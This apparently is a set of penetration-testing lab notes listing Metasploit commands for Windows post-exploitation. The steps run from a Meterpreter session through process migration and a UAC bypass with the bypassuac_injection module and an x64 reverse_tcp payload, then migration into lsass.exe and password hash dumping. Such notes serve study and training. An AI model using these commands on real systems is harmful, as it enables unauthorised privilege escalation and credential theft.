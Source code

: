 - after exploitation and having meterpreter session
- getuid 
- getsysinfo
- ps -S explorer.exe / migrate 2440
- Please note the explorer.exe arch is x64 bit so later when we perform UAC bypass, we have to use x64 based meterpreter payload.
- getsystem = we do not have permission to elevate privileges. 
- Get a windows shell and check if the admin user is a member of the Administrators group.
	- shell  
	- net localgroup administrators
	- The admin user is a member of the Administrators group. However, we do not have the high privilege as of now. We can gain high privilege by Bypassing UAC (User Account Control)
- CTRL + C  / background
- use exploit/windows/local/bypassuac_injection 
- set session 1
- set TARGET 1 
- set PAYLOAD windows/x64/meterpreter/reverse_tcp exploit
- we have now high prev
	- getsystem 
	- getuid
	- ps -S lsass.exe / migrate 688 / getsystem
	- dump hashes